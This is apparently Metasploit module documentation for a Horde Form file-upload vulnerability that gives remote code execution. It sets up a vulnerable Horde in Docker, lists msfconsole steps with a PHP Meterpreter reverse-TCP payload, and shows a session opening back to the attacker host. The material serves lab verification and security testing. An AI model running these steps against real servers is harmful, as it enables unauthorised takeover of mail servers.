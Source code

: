 Horde Groupware Webmail is a popular open-source groupware platform written in PHP. A vulnerability allows an authenticated, unprivileged user to create a malicious PHP file under the web root and gain arbitrary code execution on the server. 

## Vulnerable Application

The Horde subcomponent Horde Form < 2.0.19 is affected. This module was specifically tested against Horde 5.2.22 and 5.2.17 with Horde Form < 2.0.19 installed with PEAR on Debian.

## Verification Steps

Please folow these steps to setup a vulnerable version of Horde in Docker.

1. Set up a [Ubuntu](http://www.ubuntu.com/) box.
2. Open a terminal, and enter: ```sudo apt-get install docker.io```. Make sure Docker is properly configured and your current user has permession to use it.
3. Enter: ```mkdir horde_form_file_upload``` to create a folder.
4. Enter: ```cd horde_form_file_upload``` to enter that folder.
5. Create a ```Dockerfile``` in it with the following content.

```
FROM debian

RUN apt-get update
RUN apt-get install --yes --no-install-recommends \
    apache2 \
    ca-certificates \
    dovecot-imapd \
    libapache2-mod-php \
    mysql-server \
    php-mysqli \
    php-pear \
    rsyslog

RUN pear upgrade PEAR
RUN pear channel-discover pear.horde.org
RUN pear install horde/horde_role
RUN rm -r /var/www/html/ && mkdir /var/www/html/
RUN echo /var/www/html/ | pear run-scripts horde/Horde_Role
RUN pear install -a -B horde/webmail-5.2.22
# Uninstall end reinstall the vulnerable version
RUN pear uninstall -n horde/Horde_Form
RUN pear install -a -B horde/Horde_Form-2.0.18 
RUN sed -i "/'secure' => 'tls',/d" /var/www/html/imp/config/backends.php
RUN chown -R www-data:www-data /var/www/html/

RUN useradd -m -G mail user && echo 'user:user' | chpasswd

RUN echo 'disable_plaintext_auth = no' | tee /etc/dovecot/conf.d/99-auth.conf

ENTRYPOINT \
           /etc/init.d/mysql start && \
           echo 'CREATE DATABASE IF NOT EXISTS horde;' | mysql && \
           echo 'CREATE USER IF NOT EXISTS horde;' | mysql && \
           echo 'GRANT ALL ON horde.* TO horde IDENTIFIED BY "horde";' | mysql && \
           { echo mysqli;    sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo tcp;       sleep 0.3; \
             echo localhost; sleep 0.3; \
             echo;           sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo false;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo 1;         sleep 0.3; } | webmail-install && \
           dovecot && \
           /etc/init.d/apache2 start && \
           tail -F /var/log/apache2/access.log /var/log/syslog
```

6. Enter: ```docker build . -t horde-img``` to build the Docker image.
7. Enter: ```docker run -p8888:80 --name horde-inst horde-img``` to run the Docker instance with the name ```horde-inst```.
8. Get the Docker host ip for reverse connection. In Linux, enter: ```ip -4 addr show docker0 | grep -Po 'inet \K[\d.]+'```.

After setting up Horde, you can use your exploit module:

1. Start msfconsole
2. Do: ```use exploit/multi/http/horde_form_file_upload```
3. Do: ```set RHOSTS 127.0.0.1```
4. Do: ```set RPORT 8888```
5. Do: ```set payload php/meterpreter/reverse_tcp```
6. Do: ```set LHOST [HOST IP]```
7. Do: ```set VHOST horde.lab```
8. Do: ```set USERNAME user ```
9. Do: ```set PASSWORD user```
10. Do: ```exploit```
11. And you should get a session

## Demonstration

```
msf exploit(multi/http/horde_form_file_upload) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Uploading payload to ../var/www/html/static/mxkyfrlztogn.php
[*] Sending stage (38247 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.3:47720) at 2019-03-29 15:27:53 +0000

meterpreter > 
```
